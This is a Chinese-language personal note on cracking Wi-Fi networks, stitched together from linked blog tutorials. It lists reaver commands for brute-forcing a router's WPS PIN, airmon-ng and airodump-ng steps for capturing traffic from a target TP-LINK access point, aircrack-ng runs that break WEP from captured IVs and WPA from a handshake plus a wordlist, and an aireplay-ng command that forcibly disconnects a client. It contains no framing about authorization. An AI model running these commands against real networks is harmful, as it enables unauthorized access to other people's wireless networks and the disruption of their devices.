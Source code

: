 >http://netsecurity.51cto.com/art/201105/264844_3.htm

# 另一种思路

> PIN http://www.geekfan.net/7846/

具体的方法 http://xiao106347.blog.163.com/blog/static/21599207820136161132836/

# 怎样的可以pin

`54e.` 的即可

方式:

	sudo reaver -i mon0 -b 40:16:9F:D8:27:A2 -S -v -n

显示更多信息 

	sudo reaver -i mon0 -b 40:16:9F:D8:27:A2 -S -v -n

指定特定的pin码

	sudo reaver -i mon0 -b 40:16:9F:D8:27:A2 -S -v -n -p 40869200

# 查看

当然，通过输入iwconfig查看也是可以滴。这个命令专用于查看无线网卡，不像ifconfig那样查看所有适配器。

    iwconfig 
	
在Linux下，我们使用Aircrack-ng套装里的airmon-ng工具来实现，具体命令如下：

    airmon-ng start wlan0
    
步骤3：探测无线网络，抓取无线数据包。

在激活无线网卡后，我们就可以开启无线数据包抓包工具了，这里我们使用Aircrack-ng套装里的airmon-ng工具来实现，具体命令如下：

不过在正式抓包之前，一般都是先进行预来探测，来获取当前无线网络概况，包括AP的SSID、MAC地址、工作频道、无线客户端MAC及数量等。只需打开一个Shell，输入具体命令如下：

    airodump-ng mon0 
  
参数解释：

mon0为之前已经载入并激活监听模式的无线网卡。如下图8所示。

# 监听

既然我们看到了本次测试要攻击的目标，就是那个SSID名为TP-LINK的无线路由器，接下来输入命令如下：

	airodump-ng --ivs -w longas -c 6 wlan0 

参数解释：

* `--ivs` 这里的设置是通过设置过滤，不再将所有无线数据保存，而只是保存可用于破解的IVS数据报文，这样可以有效地缩减保存的数据包大小；
* `-c` 这里我们设置目标AP的工作频道，通过刚才的观察，我们要进行攻击测试的无线路由器工作频道为6；
* `-w` 后跟要保存的文件名，这里w就是“write写”的意思，所以输入自己希望保持的文件名，如下图10所示我这里就写为longas。那么，小黑们一定要注意的是：这里我们虽然设置保存的文件名是longas，但是生成的文件却不是longase.ivs，而是longas-01.ivs。



图10

注意：这是因为airodump-ng这款工具为了方便后面破解时候的调用，所以对保存文件按顺序编了号，于是就多了-01这样的序号，以此类推，在进行第二次攻击时，若使用同样文件名longas保存的话，就会生成名为longas-02.ivs的文件，一定要注意哦，别到时候找不到又要怪我没写清楚：）

啊，估计有的朋友们看到这里，又会问在破解的时候可不可以将这些捕获的数据包一起使用呢，当然可以，届时只要在载入文件时使用longas*.cap即可，这里的星号指代所有前缀一致的文件。

在回车后，就可以看到如下图11所示的界面，这表示着无线数据包抓取的开始。


图11

	airodump-ng -c 6  -w <文件名> --ivs mon0


# 破解
破解 web加密,需要iv2万左右

	aircrack-ng  *.ivs 


破解 wpa加密, 一个握手包+海量字典:

	aircrack-ng  -w <字典文件> *.cap 

强制断开

	aireplay-ng -0 1  -a 6C:E8:73:50:85:F0 -c 00:1B:77:BE:19:FC mon0


# 暴力wap的

	airodump-ng -c 6  -w [filename] mon0

或者

	aircrack-ng  -w [字典] *.cap 
